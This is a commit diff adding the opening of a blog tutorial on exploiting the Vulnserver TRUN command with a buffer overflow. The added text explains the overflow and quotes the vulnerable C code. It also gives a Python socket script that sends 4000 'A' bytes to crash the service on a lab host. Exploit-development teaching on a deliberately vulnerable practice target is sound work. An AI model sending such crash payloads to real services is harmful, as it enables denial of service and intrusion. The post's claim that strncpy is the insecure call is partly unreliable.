

Before and after one commit to asdyxcyxc/FULLSHADE.github.io, a Jekyll site: the page built from _posts/2019-8-01-vulnserver-trun.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2019-8-01-vulnserver-trun.md

````diff
--- a/_posts/2019-8-01-vulnserver-trun.md
+++ b/_posts/2019-8-01-vulnserver-trun.md
@@ -6,3 +6,57 @@ title: Classic JMP ESP buffer overflow exploitation - remote overflow in Vulnser
 This post covers the beginning of any exploit developers journey, the classic buffer overflow exploitation.
 
 This post covers the exploitation of the Vulnererver TRUN command, utilizing a JMP ESP and EIP overwrite to obtain remote code execution on a system.
+
+So what exactly is a buffer overflow vulnerability? A buffer overflow vulnerability is a software programming error that occurs commonly in C, and c++  applications when the software author uses insecure functions.  A buffer overflow vulnerability is where an input function is not validating the amount of user input that is given, which will allow a user to give too much the data that can then overwrite the buffer sized amount that is designated for the input, and start  writing data onto the stack.
+
+The classic exploitation technique for a standard buffer overflow is to fill up the input buffer, and calculate exactly how much data you need to precisely place a JMP instruction within the EIP  memory register. The EIP memory register is responsible for pointing to the next address that is going to be executed, if the attacker can add a JMP instruction into this EIP register, they can have that JMP instruction point to a malicious payload, a malicious shellcode payload.
+
+While auditing the source code for this application, you can see that the TRUN  command takes user input using the insecure strncpy function, this allows for an attacker to abuse the applications buffer overflow vulnerability.
+
+```c
+			} else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
+				char *TrunBuf = malloc(3000);
+				memset(TrunBuf, 0, 3000);
+				for (i = 5; i < RecvBufLen; i++) {
+					if ((char)RecvBuf[i] == '.') {
+						strncpy(TrunBuf, RecvBuf, 3000);			// <------------
+						Function3(TrunBuf);
+						break;
+					}
+				}
+```
+
+Start running the vulnserver application, make sure your firewall is configured to allow this local connection.
+
+![vulnserver 1]()
+
+First a basic nc connection to the victim machine on port 9999 shows that Vulnserver is actively running.
+
+![vulnserver 2]()
+
+Use Immunity debugger and attach the running vulnserver application to it, this will allow you to monitor and fully get a grasp on the application being exploited.
+
+![vulnserver 3]()
+
+With the vulnserver application running on port 9999 on the victim host target, you can use a basic python socket connection in order to send data to this command.
+
+```python
+import socket
+
+victim_host = "10.0.0.161"
+port = 9999
+
+payload = "A" * 4000
+buffer_exploit = "TRUN /.:/" + payload
+
+expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+expl.connect((victim_host, port))
+expl.send(buffer_exploit)
+
+print("[x] Sent TRUN + malicious payload to the victim")
+print("[!] You may need to send it multiple times")
+expl.close()
+```
+After you send the vulnerable application the buffer of A's, you can observe the application crashing. The overwritten registers show this is being successfully exploited.
+
+![vulnserver 4]()
````
